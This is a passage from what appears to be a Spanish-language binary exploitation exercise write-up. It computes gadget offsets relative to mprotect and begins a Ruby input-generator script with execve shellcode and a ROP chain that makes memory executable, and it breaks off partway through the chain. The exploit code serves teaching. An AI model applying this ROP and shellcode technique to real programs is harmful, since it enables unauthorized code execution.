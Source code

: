 Calculamos luego la distancia desde mprotect hasta nuestro gadget como

```
0x10fcae - 0x11bae0 = -0xbe32
```



Procedemos de la misma forma con los otros gadgets que necesitamos, los cuales podemos hallar usando alguna herramienta como ROPgadget:

![gadgets](img/gadgets.png)

```
0x2155f - 0x11bae0 = -0xfa581   # pop rdi ; ret
0x23e6a - 0x11bae0 = -0xf7c76   # pop rsi ; ret
0x01b96 - 0x11bae0 = -0x119f4a  # pop rdx ; ret
```



Escribimos un script en Ruby, similar al que habíamos usado para resolver los ejercicios anteriores:

```ruby
#!/usr/bin/ruby

# generate-input.rb

payload = 
"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" +
"\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" +
"\x13\x00\x00\x00\x65\x63\x68\x6f\x20\x48\x65\x6c\x6c\x6f" +
"\x2c\x20\x77\x6f\x72\x6c\x64\x21\x00\x56\x57\x48\x89\xe6" +
"\x0f\x05".force_encoding("ASCII-8BIT")


# Completar con la dirección de mprotect.
addr_mprotect = 0x0

# Completar con la dirección de chain.
addr_chain = 0x0


# Generamos la entrada.
chain = [
    addr_chain + 0x08,
    addr_chain + 0x18,
    0x0,
    addr_mprotect - 0xbe32,
    addr_mprotect - 0xfa581,    # pop rdi ; ret
    addr_chain & ~0xfff,
    addr_mprotect - 0xf7c76,    # pop rsi ; ret
    0x100,
    addr_mprotect - 0x119f4a,   # pop rdx ; ret
```